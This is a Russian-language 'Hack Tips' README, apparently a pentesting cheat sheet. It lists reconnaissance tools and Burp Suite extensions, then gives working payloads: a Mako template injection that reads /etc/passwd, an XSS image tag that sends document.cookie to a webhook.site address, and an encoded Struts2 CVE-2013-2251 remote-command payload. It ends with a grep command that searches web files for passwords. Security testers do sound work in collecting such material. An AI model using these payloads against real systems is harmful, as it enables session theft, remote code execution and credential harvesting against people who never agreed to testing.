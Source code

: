 # Hack Tips

## Разведка доменных имен

### [Cero](https://github.com/glebarez/cero)
Cero подключается к удалённым хостам и считывает доменные имена из сертификатов, предоставленных во время TLS-р�[...]  
- Извлекает сертификаты из любого протокола, работающего через TLS (не только HTTPS).  
- Позволяет указывать цели: доменные имена, IP-адреса и диапазоны CIDR (поддержка IPv6).

---

### [hakip2host](https://github.com/hakluke/hakip2host)
Инструмент для возврата связанных доменных имен по списку IP-адресов.  
- DNS PTR-поиски  
- Альтернативные имена субъектов (SAN) в SSL-сертификатах  
- Общие имена (CN) в SSL-сертификатах

---

### [httpx](https://github.com/projectdiscovery/httpx)
Быстрый и многоцелевой HTTP-инструментарий.  
- Позволяет запускать несколько тестов с помощью библиотеки.

---

### [waymore](https://github.com/xnl-h4ck3r/waymore)
Инструмент для поиска архивных ссылок через Wayback Machine.  
- Находит больше ссылок, чем другие инструменты.  
- Загружает архивные ответы и URL-адреса.

---

### [xnLinkFinder](https://github.com/xnl-h4ck3r/xnLinkFinder)
Поиск конечных точек и потенциальных параметров заданной цели.  
- Сканирование одного или нескольких доменов/URL  
- Поиск файлов и параметров в каталогах или файлах  
- Импорт из Burp (XML), ZAP (ASCII), Caido (CSV)  
- Интеграция с результатами waymore

---

## Burp Suite — полезные расширения

### Turbo Intruder
Мощное расширение для проведения высокоскоростных атак (brute-force, fuzzing) с помощью скриптов на Python.  
- Кастомизация логики атаки  
- Обработка ответов для поиска уязвимостей

#### turbo-intruder_script.py
Скрипт для проведения Time-Based SQL Injection с использованием расширения Turbo Intruder для Burp Suite. Скрипт перебирает символы для извлечения схем из базы данных через подстановку значений из файла символов и анализирует задержку в ответах для определения успешных угадываний.

---

### Copy as FFUF Command
Упрощает экспорт запросов из Burp Suite для ffuf.  
- Автоматически формирует команду ffuf по выбранному запросу

### Hackvertor
Расширение для преобразования и кодирования данных в Burp Suite.  
- Большое количество кодировок  
- Удобно для генерации payload'ов, обхода фильтров и анализа данных

### Param Miner
Автоматически ищет скрытые и нестандартные параметры в веб-приложениях.  
- Позволяет находить дополнительные точки атаки

### HackBar
Интерактивное расширение для тестирования и манипулирования HTTP-запросами прямо из Burp Suite.  
- Позволяет быстро конструировать и модифицировать payload'ы  
- Включает функции для кодирования/декодирования (URL, Base64 и др.)  
- Удобно для проведения ручного тестирования (XSS, SQLi, LFI и др.)  
- Поддерживает работу с cookie, заголовками и параметрами  
- Имеет панель быстрого доступа прямо в окне запроса

---

## Веб-уязвимости

### SSTI (Server-Side Template Injection) в Python

#### Mako Templates
- Проверка уязвимости:  
  ```python
  ${7*7}  # → 49
  ```
- Чтение файла:  
  ```python
  <% import os %>${os.popen('cat /etc/passwd').read()}
  ```

---

### XSS Payload

```html
<img src=x onerror="this.src='https://webhook.site/b8ce3f5c-707d-406f-a8df-0dd7928bca42?c='+document.cookie;">
```

#### exploit.svg
Пример SVG-файла с использованием встраивания XML External Entity (XXE). Содержит сущность, ссылающуюся на файл `/etc/passwd`, что может быть использовано для демонстрации или тестирования XXE-уязвимостей.

---

## LFI (Local File Inclusion)

- **Top 25 LFI Parameters** — [файл](https://github.com/felixsta/hack_tips/blob/main/Top_25_LFI_Parameters)  
- **LFI Wordlists:**  
  - [SecLists/Fuzzing/LFI](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)  
  - [DragonJAR/Security-Wordlist/main/LFI-WordList-Linux](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux)

#### delimiter_list
Список символов-разделителей, используемый для подбора полезной нагрузки при отравлении кэша (cache poisoning). Содержит различные символы и их URL-кодированные варианты, которые помогают обходить фильтры и изменять поведение кэширования на стороне сервера во время проведения атак или fuzzing.

---

## SQLi (SQL Injection)
- [Stacked Queries](https://www.sqlinjection.net/stacked-queries/)  
- [Pentestmonkey SQLi Cheat Sheet](https://pentestmonkey.net/category/cheat-sheet/sql-injection)

---
## jQuery
- `jquery.fn.jquery` в `jQuery` возвращает строку, содержащую текущую версию библиотеки `jQuery`. Например, если вы используете `jQuery 3.7.0`, то `jquery.fn.jquery` вернет `3.7.0`

---
## Struts2 CVE-2013-2251 payload
```
/index.action?redirect:%25%7B%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3Dfalse%2C%23f%3D%23_memberAccess.getClass().getDeclaredField%28%22allowStaticMethodAccess%22%29%2C%23f.setAccessible%28true%29%2C%23f.set%28%23_memberAccess%2Ctrue%29%2C%23a%3D%40java.lang.Runtime%40getRuntime%28%29.exec%28%22ls%20-la%22%29.getInputStream%28%29%2C%23b%3Dnew%20java.io.InputStreamReader%28%23a%29%2C%23c%3Dnew%20java.io.BufferedReader%28%23b%29%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read%28%23d%29%2C%23out%3D%40org.apache.struts2.ServletActionContext%40getResponse%28%29.getWriter%28%29%2C%23out.println%28%23d%29%2C%23out.close%28%29%7D
```

## Поиск кредов
```
grep -r "password{" /www 2>/dev/null
```
